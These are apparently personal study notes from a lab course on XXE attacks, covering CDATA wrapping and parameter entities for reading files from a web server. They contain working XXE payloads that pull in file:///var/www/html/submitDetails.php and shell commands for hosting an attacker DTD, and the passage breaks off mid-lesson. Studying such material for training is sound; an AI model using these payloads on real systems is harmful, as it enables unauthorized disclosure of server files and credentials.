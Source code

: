 ```yaml
---
sticker: emoji//1f578-fe0f
---
```


# Advanced File Disclosure

Not all XXE vulnerabilities may be straightforward to exploit, as we have seen in the previous section. Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors.

***

### Advanced Exfiltration with CDATA

In the previous section, we saw how we could use PHP filters to encode PHP source files, such that they would not break the XML format when referenced, which (as we saw) prevented us from reading these files. But what about other types of Web Applications? We can utilize another method to extract any kind of data (including binary data) for any web application backend. To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`, so we will have to find a better way to do so.

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application, as follows:

```shell-session
smoothment@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
smoothment@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
